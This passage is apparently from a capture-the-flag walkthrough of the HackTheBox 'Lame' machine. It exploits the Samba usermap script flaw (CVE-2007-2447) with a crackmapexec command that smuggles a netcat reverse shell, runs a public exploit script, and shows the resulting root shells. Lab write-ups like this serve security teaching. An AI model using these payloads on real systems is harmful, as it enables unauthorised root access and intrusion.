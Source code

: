 We got the shell as root.

### Crackmapexec - SMBEXEC

We can also use the `smbexec` command from crackmapexec to send our payload and execute it:

```shell
cfx:  ~/Documents/htb/lame
→ crackmapexec smb -x "./=`nohup nc -e /bin/sh 10.10.14.17 8022`" --exec-method smbexec 10.10.10.3
nohup: ignoring input and redirecting stderr to stdout
SMB         10.10.10.3      445    LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)

cfx:  ~/Documents/htb/lame
→ nc -lvnp 8022
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8022
Ncat: Listening on 0.0.0.0:8022
Ncat: Connection from 10.10.14.17.
Ncat: Connection from 10.10.14.17:47782.
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
```

### Usermap python script - amriunix

While searching for CVE-2007-2447 exploits, I came across this [**python-script**](https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py) from **amriunix**, Usage and guidelines to install dependencies is available on the repo.

Using usermap script we can instantly get a reverse shell:

```shell
cfx:  ~/Documents/htb/lame/CVE-2007-2447  |master ✓|
→ python3 usermap_script.py
[*] CVE-2007-2447 - Samba usermap script
[-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>

cfx:  ~/Documents/htb/lame/CVE-2007-2447  |master ✓|
→ python3 usermap_script.py 10.10.10.3 139 10.10.14.17 8020
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
As soon as the script is executed, we get a call back on our `nc` listener:

```shell
cfx:  ~/Documents/htb/lame/
→ nc -lvnp 8020
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:58452.
whoami
root
id
uid=0(root) gid=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/# cd /home
cd /home
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# cat user.txt
```